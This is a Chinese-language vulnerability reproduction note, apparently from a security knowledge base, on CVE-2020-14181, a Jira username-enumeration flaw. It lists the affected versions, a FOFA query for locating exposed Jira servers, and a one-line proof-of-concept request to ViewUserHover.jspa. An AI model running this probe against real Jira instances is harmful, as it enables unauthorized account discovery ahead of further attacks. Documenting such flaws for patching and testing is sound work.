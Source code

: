 # Atlassian Jira ViewUserHover.jspa 用户信息泄露漏洞 CVE-2020-14181

## 漏洞描述

Jira存在一个未授权访问漏洞，未授权的用户可以通过一个api接口直接查询到某用户名的存在情况，该接口不同于CVE-2019-8446和CVE-2019-3403的接口，是一个新的接口。如果Jira暴露在公网中，未授权用户就可以直接访问该接口爆破出潜在的用户名。

## 漏洞影响

<a-checkbox checked>Atlassian Jira < 7.13.6</a-checkbox></br>

<a-checkbox checked>Atlassian Jira 8.0.0 - 8.5.7</a-checkbox></br>

<a-checkbox checked>Atlassian Jira 8.6.0 - 8.12.0</a-checkbox></br>

## FOFA

<a-checkbox checked>app="Jira"</a-checkbox></br>

## 漏洞复现

打开主界面，注意标识中的 Jira版本是否在影响中

![img](../../../.vuepress/public/img/jira-1.png)



使用POC对用户名是否存在进行验证

```
/secure/ViewUserHover.jspa?username=admin
```

用户名如果不存在会返回

![img](../../../.vuepress/public/img/jira-2.png)



存在的用户名会返回

![img](../../../.vuepress/public/img/jira-4.png)



不存在漏洞会返回

![img](../../../.vuepress/public/img/jira-3.png)



## 